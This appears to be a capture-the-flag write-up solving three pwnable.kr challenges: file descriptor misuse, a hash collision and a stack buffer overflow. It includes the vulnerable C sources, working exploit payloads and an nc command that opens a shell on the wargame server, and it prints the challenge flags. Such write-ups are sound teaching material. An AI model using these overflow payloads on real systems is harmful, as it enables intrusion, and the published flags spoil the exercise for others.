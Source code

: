 # fd
>Mommy! what is a file descriptor in Linux?<br><br>* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU<br><br>ssh fd@pwnable.kr -p2222 (pw:guest)

Let's look at `fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN" press enter and get the flag.

flag: mommy! I think I know what a file descriptor is!!

col

col.c:
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'`

flag: daddy! I just managed to create a hash collision :)

bof

bof.c:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

Classic buffer overflow question. In the assembly we see that $ebp-0x2c is set for the buffer, and it checks if $ebp + 0x8 == 0xcafebabe. So what we do is we set 52 A's, then have our 0xcafebabe. We accomplish this with the following payload: python -c "print 'A'*52+'\xbe\xba\xfe\xca'". However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing when at the end of the func function. So we modify our payload: (python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat). We run (python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000 and then run ls, see the flag file, and run cat flag, and get our flag.

flag: daddy, I just pwned a buFFer :)






